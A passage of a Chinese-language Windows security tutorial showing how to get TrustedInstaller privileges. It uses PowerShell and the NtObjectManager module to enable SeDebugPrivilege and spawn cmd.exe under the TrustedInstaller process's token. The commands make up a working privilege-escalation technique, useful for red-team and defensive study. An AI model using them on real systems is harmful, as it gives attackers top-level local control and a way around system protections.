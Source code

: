```
Get-Acl -Path C:\Windows\servicing\TrustedInstaller.exe |select Owner
```

#### 利用TrustedInstaller.exe的token

使用 TrustedInstaller.exe 的 token 创建子进程，这样子进程就有了 TrustedInstaller 权限

**powershell 版**

先安装 Set-NtTokenPrivilege 命令

https://www.powershellgallery.com/packages/NtObjectManager/1.1.1

```powershell
# Save-Module需要powershell v5.0支持
Save-Module -Name NtObjectManager -Path c:\test
Install-Module -Name NtObjectManager -RequiredVersion 1.1.1
```

```powershell
Set-ExecutionPolicy Unrestricted
Import-Module NtObjectManager

sc.exe start TrustedInstaller
Set-NtTokenPrivilege SeDebugPrivilege
$p = Get-NtProcess -Name TrustedInstaller.exe
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $p
```

使用 whoami 查看当前 cmd 权限：
```
whoami /groups /fo list

whoami /groups | findstr TrustedInstaller
```

